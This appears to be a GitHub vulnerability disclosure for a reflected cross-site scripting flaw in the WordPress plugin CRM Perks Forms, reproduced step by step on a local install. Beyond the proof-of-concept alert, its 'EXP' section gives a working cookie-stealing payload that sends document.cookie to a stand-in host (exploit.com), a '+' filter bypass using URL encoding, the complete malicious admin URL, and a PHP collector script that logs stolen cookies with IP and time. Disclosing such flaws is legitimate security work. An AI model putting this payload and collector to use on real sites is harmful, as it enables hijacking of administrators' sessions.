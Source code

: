 0x01 Vulnerability description

    There is an XSS(Cross Site Scripting) vulerability in the wordpress plugin called CRM Perks Forms.
    An attacker inserts malicious code into a web-page URL.
    The code is triggered when user clicks the malicious links and move his mouse over the list area on the left of the web-page. 

0x02 Recurrence of the vulnerability

    This is tne main page of the plugin.
    First, click Add-New-Form to create a new form.
![1.png](https://github.com/Don-H50/wp-vul/blob/main/images/WDK/0426-1.png)

    Choose one template.
![2.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-2.png)

    This is the affected page with XSS vulnerability.
    You can see that my new form id is 66, yours may be 1, it doesn't matter, because I have created it many times.
    So the affected web-page URL is: http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66
    Statement: This URL can be used regardless of whether you have created a form, and the id can be any number.
![3.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-3.png)

    Payload: "onmouseover=alert(1)//
    Enter the payload in the URL bar and move your mouse over the list area on the left of the web-page, an alert pop-up will appear.
    So, there is an XSS vulnerability.
![4.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-4.png)

「EXP」

Purpose: By clicking on the malicious URL link constructed by the attacker and moving mouse, the user will leak his own cookie.

    Change the payload to: "onmouseover=alert(document.cookie)//
    We can see the user cookie information in the pop-up window.
![5.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-5.png)

    Build a listening server locally to receive the cookie information of the target user.
    Write a PHP script 'getcookie.php' on the server to remotely receive cookie information.
    The function of this script is to write the received cookie into the 'cookie.txt'.
    At this point the payload is: "onmouseover=location.href="http://exploit.com/get.php?cookie="+document.cookie//
    We extend the payload to the URL to make a request, find that there is no user's cookie in the 'cookie.txt' file of the remote server.
    Check the source code of the web-page and find that the '+' in the span tag is filtered.
![8.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-8.png)

    So try to convert '+' to URL encoding '%2B'.
    Construct a new payload: "onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    Enter payload in the URL bar.
![12.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/2023-04-22_23-12.png)

    Check the source code of the web-page again, '+' is not filtered out.
![9.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-9.png)

    Move my mouse over the list area, the web-page has been redirected.
![10.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-10.png)

    At this point, the user cookie has been sent to the local listening server.
![11.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-11.png)

    Merge the payload and URL to construct a malicious URL link:
    http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66?"onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    The user causes the leakage of his own cookie by clicking on the malicious link and moving mouse.
    
The simple 'getcookie.php' script:

    <?php
    $cookie = $_GET['cookie'];
    $ip = getenv ('REMOTE_ADDR');
    $time = date('Y-m-d g:i:s');
    $fp = fopen("cookie.txt","a");
    fwrite($fp,"IP: ".$ip." Date: ".$time."\nCookie:".$cookie."\n");
    fclose($fp);
    ?> 



   
   
